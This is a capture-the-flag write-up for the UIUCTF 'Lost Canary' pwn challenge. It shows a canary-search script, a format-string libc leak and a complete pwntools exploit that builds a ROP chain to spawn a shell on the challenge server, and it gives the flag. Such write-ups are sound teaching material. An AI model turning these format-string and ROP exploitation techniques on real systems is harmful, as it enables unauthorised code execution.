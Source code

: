 # Lost Canary
![challenge](challenge.png)

### Description:
> Author: spicypete
>
>Damn, I lost my canary at one of the train stations. Can you help me find it?
>
>`ncat --ssl lost-canary.chal.uiuc.tf 1337`
>
>This is a rev/pwn challenge, not just rev.
### Files: [ld-2.31.so](ld-2.31.so), [lost_canary](lost_canary), [Makefile](Makefile), [libc-2.31.so](libc-2.31.so), [Dockerfile](Dockerfile)

### Overview:
The challenge binary is a relatively large file (around 10 MB) and contains 0x8000 functions named in the format `station_n()`. The `select_station()` function prompts us for a number between 0 and 0x8000 and jumps to the corresponding station.

Each station has the following characteristics:
1. It contains a buffer overflow.
2. It performs a canary check using a hardcoded canary stored in the .data section of the binary.
3. Said canary contains some "bad" bytes to prevent us from achieving PC-control.

Let's analyze for example `station_1337`:

```c
void station_1337(void)
{
  char local_1018 [4100];
  char local_14 [4];
  ulong local_10;
  
  local_10 = ___stack_chk_guard_1337;
  printf("%s","Welcome to station 1337.\nEnter ticket code:");
  fgets(local_1018,0x1000,stdin);
  strcpy(local_14,local_1018);
  local_10 = local_10 ^ ___stack_chk_guard_1337;
  if (local_10 != 0) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

In this function, we can notice an obvious buffer overflow when `strcpy()` copies our buffer into `local_14`. However, examining the value of `___stack_chk_guard_1337`, which is `0x667a5943524b7200`, reveals the presence of a null byte which prevents `strcpy()` from overwriting the return pointer.

By looking at the other station functions we can categorize them in 3 types:
- The first one uses `fgets()` for input and `strcpy()` to overflow the buffer, `strcpy()` stops after a null byte.
- The second one uses `scanf("%s")`, which stops reading input after a whitespace character.
- The last one uses `gets()`, which stops after a newline.

### Reversing: 

We need to find a station which has a canary that doesn't contain any bad bytes for the functions used within it.
To achieve this, i dumped the `.data` section to parse the canaries and mapped each one to its corresponding function number. Fortunately, the canaries were already ordered, with the first canary used in `station_0`, the second in `station_1`, and so on.

Secondly i parsed the station functions themselves to check if they used `fgets()`/`gets()`/`scanf()`, i used the [ghidra2dwarf](https://github.com/cesena/ghidra2dwarf) to dump the decompiled functions into .c file.

Here's my [script](parse.py) to find the vulnerable function:

```py
from pwn import *

with open("text.data", "rb") as f: #.data section
    data = b"".join(f.readlines())

data = data[16:] #removing __data_start and __dso_handle

canary = {}

for i in range(0, len(data), 8): #mapping each number to its corrisponding canary
    canary[i//8]=data[i:i+8]
    
with open("lost_canary_dbg.c", "r") as f: #parsing the decompiled functions
    data = (("".join(f.readlines())).split("void station"))[1:]

for idx, i in enumerate(data): #checking if the canary contains a bad char for the function used
    if "fgets" in i:
        if b"\x00" in canary[idx]:
            continue
    elif "gets" in i:
        if b"\n" in canary[idx]:
            continue
    elif "scanf" in i:
        if b" " in canary[idx]:
            continue
    print(f"FOUND {idx}")
```

Running the script:
```bash
$ python3 parse.py 
FOUND 14927
```

If we check `station_14927`:

```c
void station_14927(void)
{
  char local_14 [4];
  ulong local_10;
  
  local_10 = ___stack_chk_guard_14927;
  sleep(1);
  printf("%s","Welcome to station 14927.\nEnter ticket code:");
  gets(local_14);
  local_10 = local_10 ^  ___stack_chk_guard_14927;
  if (local_10 != 0) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

And its corrisponding canary is `0x7361754569205965` which doesn't contain any newlines!

### Exploit:
We can now overwrite the return pointer using the `station_14927()` function, the last thing we need is a libc leak, thankfully there is a format string vuln in `select_station()` which we can use to leak the base of libc:

```c
printf("Enter station number: ");
fgets((char *)&local_28,16,stdin);
puts("Traveling to station: ");
printf((char *)&local_28);
putchar(10);
local_c = atoi((char *)&local_28);
```

We can use a payload such as `"14927%p"` which will still make `atoi()` return the correct station number while also printing out the value in `RSI`, which at the moment of the call to `printf()` is a libc address, more specifically `_IO_2_1_stdout_ + 131`.

Putting it all together gives us our [exploit](solve.py) which we can use to call `system("/bin/sh")` and get the flag:

```py
#!/usr/bin/env python3

from pwn import *
from time import sleep

exe = ELF("./lost_canary_patched")
libc = ELF("./libc-2.31.so")
ld = ELF("./ld-2.31.so")

context.binary = exe

REMOTE_NC_CMD    = "nc lost-canary.chal.uiuc.tf 1337"    # `nc <host> <port>`

bstr = lambda x: str(x).encode()
ELF.binsh = lambda self: next(self.search(b"/bin/sh\0"))

GDB_SCRIPT = """
set follow-fork-mode parent
set follow-exec-mode same
b *select_station+104
b *station_14927
c
"""

def conn():
    if args.LOCAL:
        return process([exe.path])
    
    if args.GDB:
        return gdb.debug([exe.path], gdbscript=GDB_SCRIPT)
    
    return remote(REMOTE_NC_CMD.split()[1], int(REMOTE_NC_CMD.split()[2]), ssl=True)

def main():
    r = conn()

    r.sendline(b"14927%p")
    r.recvuntil(b"14927")
    libc.address = int(r.recvline(False), 16) - libc.sym._IO_2_1_stdout_ - 131
 
    log.info(f"LIBC @ {hex(libc.address)}")

    rop = ROP(libc)
    POP_RDI = p64(rop.rdi.address)
    canary = 0x7361754569205965
    chain = p64(canary)*2 + POP_RDI + p64(libc.binsh()) + p64(rop.ret.address) + p64(libc.sym.system)

    r.sendline(b"A"*4+chain)
    r.interactive()

if __name__ == "__main__":
    main()
```

Flag: ```uiuctf{the_average_sigpwny_transit_experience}```
